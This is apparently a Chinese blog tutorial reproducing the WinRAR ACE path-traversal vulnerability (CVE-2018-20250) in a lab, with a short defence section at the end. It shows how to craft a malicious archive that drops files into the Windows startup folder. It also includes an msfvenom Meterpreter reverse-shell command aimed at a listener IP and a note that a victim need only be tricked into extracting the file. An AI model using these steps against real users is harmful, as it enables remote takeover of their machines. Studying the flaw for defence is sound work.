




WinRAR 代码执行相关的CVE 编号如下：

> CVE-2018-20250,CVE-2018-20251, CVE-2018-20252, CVE-2018-20253

这里我们复现最开始的WinRAR目录穿越漏洞（CVE-2018-20250）。

## 漏洞详情

### 原理：

WinRAR目录穿越漏洞（CVE-2018-20250）：

　　该漏洞是由于WinRAR 所使用的一个陈旧的动态链接库UNACEV2.dll所造成的，该动态链接库在2006  年被编译，没有任何的基础保护机制(ASLR,DEP 等)。该动态链接库的作用是处理ACE  格式文件。而在解压处理过程中存在一处目录穿越漏洞,允许解压过程写入文件至开机启动项，导致代码执行。

### 影响版本：

> WinRAR < 5.70 Beta 1
>
> Bandizip < = 6.2.0.0
>
> 好压(2345压缩) < = 5.9.8.10907
>
> 360压缩 < = 4.0.0.1170

### 漏洞利用条件：

　　攻击不能跨盘符，即受害者进行解压文件触发漏洞时，必须在系统盘，且在不知道计算机主机名的情况下，只能在主浏览器的默认下载路径下（C:\Users\Administrator\Downloads）或者桌面进行解压，或者多猜几个启动项路径。产生漏洞的DLL文件：UNACEV2.DLL，不能识别相对路径，文件名部分必须为绝对路径。

　　以下是几种机器的开机启动项路径，可以看到在个人PC上受用户名影响，无法猜测到准确的路径，而服务器上一般不会修改用户名，所以这个漏洞在服务器上利用度比较高。

Win2003开机启动项路径：C:\Documents and Settings\Administrator\「开始」菜单\程序\启动

Win2008开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win2012开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win7　 开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win10　开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup　　本次试验使用的是Win2008，

## 漏洞复现

### 环境工具：

服务器：Win2008 R2

WinRAR 5.60简体中文版：https://www.rarlab.com/rar/winrar-x64-560sc.exe

Python-3.7.2-amd64.exe：https://www.python.org/ftp/python/3.7.2/python-3.7.2-amd64.exe

010Editor：https://download.sweetscape.com/010EditorWin64Installer901.exe

Wace和模板文件：https://github.com/360-A-Team/CVE-2018-20250

EXP：https://github.com/WyAtu/CVE-2018-20250

### 漏洞复现：

这里我们写一个bat，进行弹窗演示：


然后打开WinAce，选中我们创建的文件，右键，点击Add to...



　　利用WinACE进行压缩,这里选择store full path。


　　生成之后我们利用脚本检查一下我们生成的文件1.ace的header信息：


这里几个是我们需要修改的参数。

 在010Edit工具中打开刚才生成的1.ace文件，将文件路径替换为启动项路径如下，然后可以看到新的完整的文件路径长度为93，转换为16进制后为：5D。


修改完这两个地方之后点击保存，接着还需要修改hdr_size。




　　这三个地方修改完成之后点击保存。

　　最后利用acefile.py重新查看文件header信息。修改acefile.py，在3061行处添加以下语句，输出文件hdr_crc。


```
print("[+] right_hdr_crc : {} | struct {} ".format(hex(ace_crc16(buf)),struct.pack('<H', ace_crc16(buf))))
print("[*] current_hdr_crc : {} | struct {}".format(hex(hcrc),struct.pack('<H', hcrc)))
```


可以看到当前的hdr_crc为：16 9A，我们要把它改为E4 A3，保存之后重新查看文件header信息。


　　修改完成，将文件另存为1.rar。


 选择解压到当前文件夹或解压到文件夹1都可以，可以看到bat文件成功解压到开机启动项里。


重启电脑查看效果。


复现成功，自动运行bat文件弹窗。

## MSF利用

 　首先下载EXP：

```
wget https://github.com/WyAtu/CVE-2018-20250/archive/master.zip
```

　　这里我解压/root/tools目录下：


　　然后利用msf生成一个恶意程序，放到该目录下：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.86.129 lport=4444 -f exe -o /root/tools/CVE-2018-20250-master/test.exe
```

 　修改exp.py文件：


　　将evil_filename改为我们生成的恶意程序。


　　将py -3 改为python3，修改完成之后保存，运行以下命令：

```
python3 exp.py 
```



　　成功生成攻击文件test.rar，只要诱导用户下载解压这个压缩文件呢，就可得到用户电脑权限，这里只演示功能，我们用python简单开启一个http服务：

```
python -m SimpleHTTPServer
```

　　切换到win2008，也就是我们要攻击的目标机器。下载test.rar，然后直接在下载目录解压（也可选择在桌面解压）。




　　可以看到在系统的启动路径下成功解压出hi.exe文件。接着我们在kali上面开启监听，然后重启win2008。


　　成功拿到目标机器权限。

 

## 漏洞防御

　　删除受影响压缩软件目录下UNACEV2.dll文件能有效防御。
　　升级到最新版本，WinRAR 目前版本是 5.70 Beta 1。
　　总而言之，该漏洞并没有那么致命。目标性的打站，得先欺骗下载，并再在未防护的服务器上解压，企业服务器管理员都很难会这样做。而且必须得服务器重启才能生效，不能直接执行脚本。

 